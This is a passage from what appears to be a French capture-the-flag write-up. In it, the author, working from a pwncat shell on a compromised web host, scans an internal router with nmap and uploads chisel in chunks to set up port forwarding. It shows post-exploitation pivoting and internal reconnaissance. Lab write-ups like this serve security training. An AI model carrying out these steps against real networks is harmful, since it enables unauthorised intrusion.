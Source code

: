 On télécharge nmap et on le réassemble.    

```bash
(remote) www-data@app.ctx.ctf:/tmp$ ./nmap router1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-11-11 21:08 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for router1 (172.16.1.128)
Host is up (0.00016s latency).
rDNS record for 172.16.1.128: hackback_router1_1.hackback_r_1_ext
Not shown: 1203 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
179/tcp  open  bgp
2601/tcp open  zebra━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

On prépare à transferer chise sur la machine cible pour faire un port forwarding. 

```bash
remote) www-data@app.ctx.ctf:/tmp$ 
(local) pwncat$ upload ./xaa
./xaa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:04:57] uploaded 512.00KiB in 0.96 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xab
./xab ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:01] uploaded 512.00KiB in 0.87 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xac
./xac ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:07] uploaded 512.00KiB in 0.91 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xad
./xad ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:10] uploaded 512.00KiB in 0.88 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xae
./xae ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:12] uploaded 512.00KiB in 0.88 seconds                                                                                                                                                                                     upload.py:76
(local) pwncat$ upload ./xaf
./xaf ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 512.0/512.0 KB • ? • 0:00:00
[10:05:15] uploaded 512.00KiB in 1.01 seconds                                                                                                                                                                                     upload.py:76
```